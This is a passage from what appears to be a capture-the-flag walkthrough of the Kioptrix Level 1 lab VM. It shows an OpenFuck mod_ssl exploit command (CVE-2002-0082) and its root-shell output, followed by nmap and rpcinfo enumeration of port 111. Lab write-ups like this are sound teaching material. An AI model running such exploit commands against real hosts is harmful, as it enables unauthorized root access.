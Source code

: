 ```bash
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
hostname
kioptrix.level1
```

We have used ```./open 0x6b 192.168.132.129 -c 40```  0x6b because if we look into <a href=https://github.com/heltonWernik/OpenLuck/blob/master/OpenFuck.c > CVE **2002-0082** </a> for Red Hat Linux apache  



## Port 111
Lets we look into next port 111


```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-26 07:36 IST
Nmap scan report for 192.168.132.129
Host is up (0.0011s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

We can see that port 111 is an RPC 

What is RPC ?

<a href="https://www.youtube.com/watch?v=QmhTjsOOrlw&t=684s"> Remote Procedure Call (RPC) </a>is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network’s details. RPC helps to communicate processes resides on different systems connected over network

I have tried some basic  enumeration  

```bash
┌─[✗]─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub/kioptrix1]
└──╼ $nmap -Pn --script rpcinfo.nse 192.168.132.129 -p 111
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-30 22:51 IST
Nmap scan report for 192.168.132.129
Host is up (0.00068s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
```
